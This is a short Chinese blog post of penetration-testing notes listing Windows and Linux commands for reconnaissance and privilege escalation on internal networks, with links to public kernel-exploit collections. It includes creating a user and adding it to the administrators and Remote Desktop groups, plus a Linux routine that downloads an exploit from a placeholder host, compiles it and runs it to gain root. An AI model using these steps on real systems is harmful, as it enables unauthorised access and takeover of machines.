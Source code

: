 ```yaml
---
layout: post
title: 内网提权命令
categories:
  - - 安全
    - web安全
tags: 
  - web安全
abbrlink: 3415919552
date: 2018-09-07 00:00:00
description: 内网提权命令
---
```


## Windows基础命令

	net user xx

	query user #查看用户登录情况

	whoami #当前用户权限

	systeminfo #查看当前系统版本与补丁信息

	net user xx 123456 /add #添加用户

	net localgroup administrators xx /add #添加到管理员组

	net localgroup "Remote Desktop Users" xx /add #如远程桌面连接不上那么添加远程桌面组

	ipconfig #查看本机ip信息，可加 /all 参数

	netstat -ano #查看端口情况

	dir c:\ #查看目录

	type c:\Users\admin\Desktop\1.txt #查看指定位置文件内容，一般为文本文件

	echo 字符串>2.txt #写入文本到文件。特殊字符如<>等前面加^

	copy 1.txt 3.php #复制文件

	rename d:\2.txt mspaint.bat #将某个路径下的文件重命名

	tasklist #查看所有进程占用的端口

	taskkill /im xx.ext /f #强制结束指定进程 如 taskkill /im QQMusic.exe /f


## Windows基础提权命令

	查看系统信息
	systeminfo|findstr /B/C:"OS名称"/C:"OS版本"

	主机名
	Hostname

	环境变量
	Set

	查看用户信息
	Net user
	Net1 user

	查看服务pid号
	Tasklist/svc|find "TermService"
	netstat -ano|find "1488"

	查看系统名
	wmic os get caption

	查看补丁信息
	wmic dfe get Description,HotFixID,InstalledOn|findstr /C:"KB4013389" /C:"KB958644"

	查看当前安装程序
	wmic product get name,version

## Linux基础命令

	查看系统版本信息
		cat /etc/issue
		cat /etc/*-release
	查看内核版本
		uname -a



## Linux提权基础命令

	基础命令：
	uname -an
	id
	pwd
	cat /etc/issue

	套路：
	wget http://exp/exp.c
	gcc -o exp exp.c
	chmod +x exp
	./exp
	...到root

## LINK

[【权限提升】Linux 提权常用命令集](https://zhuanlan.zhihu.com/p/42358253)  
[SecWikiGithub](https://github.com/SecWiki)  
[SecWiki](https://www.sec-wiki.com/)  
[Exploit-db本地提权](https://www.exploit-db.com/local/)  
[Windows提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)  
[Linux提权漏洞集合](https://github.com/SecWiki/linux-kernel-exploits)  
[Mac-OS提权漏洞集合](https://github.com/SecWiki/macos-kernel-exploits)  




